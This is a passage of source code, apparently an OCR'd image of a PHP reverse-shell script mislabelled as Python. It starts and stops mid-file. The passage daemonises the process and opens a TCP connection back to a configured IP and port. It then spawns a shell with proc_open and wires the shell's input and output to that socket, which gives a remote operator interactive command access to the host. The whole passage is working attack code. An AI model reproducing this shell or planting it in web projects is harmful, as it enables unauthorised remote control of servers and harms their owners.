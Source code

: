 ```python
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
```